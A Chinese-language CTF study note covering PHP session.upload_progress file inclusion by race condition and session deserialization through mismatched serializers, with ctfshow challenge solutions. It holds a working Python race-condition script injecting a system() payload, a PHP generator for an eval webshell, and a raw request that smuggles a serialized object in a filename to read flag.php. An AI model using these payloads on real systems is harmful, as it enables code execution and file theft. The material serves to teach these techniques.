






**session条件竞争**

**文件上传条件竞争**

新手杯石头剪刀布  make php great again

## session

### 文件包含

这篇文章写的很详细，我大致总结一下

[利用session.upload_progress进行文件包含和反序列化渗透](https://www.freebuf.com/vuls/202819.html)

> 在php5.4之后新增的配置
>
> ```php
> 1.session.upload_progress.enabled = on
> 2.session.upload_progress.cleanup = on
> 3.session.upload_progress.prefix = "upload_progress_"
> 4.session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
> 5.session.use_strict_mode=off
> ```
>
> 第一个表示当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中
> 第二个表示当文件上传结束后，php将会立即清空对应session文件中的内容
> 第三和第四个`prefix+name`将表示为session中的键名
> 第五个表示我们对Cookie中sessionID可控
>
> 也就是说，当我们**POST**上传一个`PHP_SESSION_UPLOAD_PROGRESS`为**key**，任意内容为**value**，同时上传一个文件，然后我们在Cookie里设置PHPSESSID=xlccccc，此时会在服务器上创建一个`/tmp/sess_xlccccc`，里面的内容就为上面的**value**，文件是充数的
> 即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有`ini.get("session.upload_progress.prefix")`+由我们构造的`session.upload_progress.name`值组成，最后被写入sess_文件里。
>
> 但由于**cleanup**是开启的，所以这个文件是会被自动清除的，此时就需要条件竞争，在他没能清除的时候进行文件包含实现利用

当文件包含过滤的很死时，就可考虑这个

还可以配合文件上传的`.user.ini`打文件包含（详见**ctfshow_web162**

条件竞争脚本

```python
import io
import requests
import threading
url = 'http://453228ae-28f2-4bb0-b401-83514feae8df.chall.ctf.show:8080/'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac f*");?>xl'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('xl.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'xl' in response.text:
            print(response.text)
            break
        else:
            print('retry')

if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```

### 反序列化

[带你走进PHP session反序列化漏洞](https://xz.aliyun.com/t/6640)

[[代码审计]PHP中session的存储方式(WP)](https://blog.csdn.net/solitudi/article/details/107750063?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522160775411819724848183660%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=160775411819724848183660&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_v29-2-107750063.pc_v2_rank_blog_default&utm_term=session&spm=1018.2118.3001.4450)

成因就是由于php两个反序列化器的反序列化方式不同

```php
ini_set('session.serialize_handler','php_serialize');
session_start();
```

```php
ini_set('session.serialize_handler','php');
session_start();
```

第一个反序列化时是可以用**`|`**这个字符的，而第二个反序列化时,php引擎会以**`|`**作为作为key和value的分隔符

而第一个就是session中的值，是可控的

> **第一种**
>
> 例如
>
> session如下设置
>
> ```php
> $_SESSION['ryat'] = '|O:11:"PeopleClass":0:{}';
> ```
>
> 经过`php_serialize`序列化后就变为
>
> ```php
> a:1:{s:6:"spoock";s:24:"|O:11:"PeopleClass":0:{}";}
> ```
>
> 但我们读取时使用的是`php`反序列化
>
> 就会将`a:1:{s:6:"spoock";s:24:"`作为该值的key(变量名)，`O:11:"PeopleClass":0:{}`作为value，也就是对象
>
> 这个过程中就实现了反序列化
>
> 这是**session**中有该值`ryat`，并且正好利用的地方有类可以进行反序列化

>**第二种**
>
>这种是你的某个文件里有类
>
>此时你先利用`PHP_SESSION_UPLOAD_PROGRESS`上传文件，构造恶意反序列化语句并写入**session**文件
>
>具体为，在上传文件时，如果POST一个名为PHP_SESSION_UPLOAD_PROGRESS的变量，就可以将filename的值赋值到session中，上传的页面的写法如下：
>
>```html
><form action="index.php" method="POST" enctype="multipart/form-data">
>    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
>    <input type="file" name="file" />
>    <input type="submit" />
></form>
>```
>
>最后就会将文件名写入到session中，具体的实现细节可以参考PHP手册。
>
>此时你访问具有该漏洞的页面(反序列化器不同)，就会导致反序列化漏洞

#### ctfshow_web263

源码泄露`/www.zip`

反序列化器不同，session伪造



入口，任意文件写入



伪造session入口



pop

```php
<?php

class User{
    public $username = 'xl.php';
    public $password = '<?php eval($_POST[1]); ?>';
}

$user = new User();

echo(base64_encode('|'.serialize($user)));?>
```

生成的payload赋给**limit**



然后访问**check.php**

此时反序列化成功，访问`log-xl.php`

如果开启了**session**自动清除，就需要竞争（暂时还没遇到，遇到再说



#### ctfshow_剪刀石头布

```php
<?php
    ini_set('session.serialize_handler', 'php');
    if(isset($_POST['source'])){
        highlight_file(__FILE__);
    phpinfo();
    die();
    }
    error_reporting(0);
    include "flag.php";
    class Game{
        public $log,$name,$play;

        public function __construct($name){
            $this->name = $name;
            $this->log = '/tmp/'.md5($name).'.log';
        }

        public function play($user_input,$bot_input){
            $output = array('Rock'=>'&#9996;&#127995;','Paper'=>'&#9994;&#127995;','Scissors'=>'&#9995;&#127995;');
            $this->play = $user_input.$bot_input;
            if($this->play == "RockRock" || $this->play == "PaperPaper" || $this->play == "ScissorsScissors"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." Draw</div>\n",FILE_APPEND);
                return "Draw";
            } else if($this->play == "RockPaper" || $this->play == "PaperScissors" || $this->play == "ScissorsRock"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." You Lose</div>\n",FILE_APPEND);
                return "You Lose";
            } else if($this->play == "RockScissors" || $this->play == "PaperRock" || $this->play == "ScissorsPaper"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." You Win</div>\n",FILE_APPEND);
                return "You Win";
            }
        }

        public function __destruct(){
                echo "<h5>Game History</h5>\n";
        echo "<div class='all_output'>\n";
                echo file_get_contents($this->log);
        echo "</div>";
        }
    }

?>

<?php
    session_start();
    if(isset($_POST['name'])){
        $_SESSION['name']=$_POST['name'];
        $_SESSION['win']=0;
    }
    if(!isset($_SESSION['name'])){
        ?>
        <body>
            <h5>Input your name :</h5>
            <form method="post">
            <input type="text" class="result" name="name"></input>
            <button type="submit">submit</button>
            </form>
        </body>
        </html>
<?php exit();
    }

?>
<?php
echo "<h5>Welecome ".$_SESSION['name'].", now you win ".$_SESSION['win']." rounds.</h5>";
$Game=new Game($_SESSION['name']);
?>
    <h5>Make your choice :</h5>
    <form method="post">
    <button type="submit" value="Rock" name="choice">&#9996;&#127995;</button>
    <button type="submit" value="Paper" name="choice">&#9994;&#127995;</button>
    <button type="submit" value="Scissors" name="choice">&#9995;&#127995;</button>
    </form>

    <?php
    $choices = array("Rock", "Paper", "Scissors");
    $rand_bot = array_rand($choices);
    $bot_input = $choices[$rand_bot];
    if(isset($_POST["choice"]) AND in_array($_POST["choice"],$choices)){
        $user_input = $_POST["choice"];
        $result=$Game->play($user_input,$bot_input);
        if ($result=="You Win"){
            $_SESSION['win']+=1;
        } else {
            $_SESSION['win']=0;
        }
    } else {
        ?>
        <form method="post">
        <button class="flag" value="flag" name="flag">get flag</button>
        <button class="source" value="source" name="source">show source</button>
        </form>
        <?php
        if(isset($_POST["flag"])){
            if($_SESSION['win']<100){
                echo "<div>You need to win 100 rounds in a row to get flag.</div>";
            } else {
                echo "Here is your flag:".$flag;
            }

        }
    }
    ?>
```

正是上面说的第二种，而且给出的**phpinfo**表明没有进行**session**清除，所以无需条件竞争

```html
<form action="http://7ac2aca9-fa29-4af7-a42f-468bc25a2fec.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
  <input type="file" name="file" />
  <input type="submit" />
</form>
```



```web-idl
POST / HTTP/1.1
Host: 7ac2aca9-fa29-4af7-a42f-468bc25a2fec.challenge.ctf.show
Content-Length: 359
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypil5jYv7AAVIoQtq
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=e77d7d717399ccf2e5d488b762c32ac1
Connection: close

------WebKitFormBoundarypil5jYv7AAVIoQtq
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
------WebKitFormBoundarypil5jYv7AAVIoQtq
Content-Disposition: form-data; name="file"; filename="|O:4:\"Game\":1:{s:3:\"log\";s:22:\"/var/www/html/flag.php\";}"
Content-Type: image/x-icon
```

> 流程就是
>**上传文件 ==> 文件名存入session ==> 访问index.php ==> 反序列化session ==> 反序列化器不同导致反序列化漏洞**

这里可能没说太清楚，我理一下

### 注意

如果你能控制`$_SESSION`的值，你可以利用这种反序列化的不同上传一个`|O:XXX`对象，此时会以你当前的`PHPSESSID`创建一个`sess_PHPSESSID`的文件存放在服务端，然后你再次以该`PHPSESSID`访问这个网页，执行`session_start();`就会对你的`sess_PHPSESSID`的文件进行反序列化，就不是同步进行的，对象可以存储在本地，详见**[Lctf2018 bestphp's revenge]**

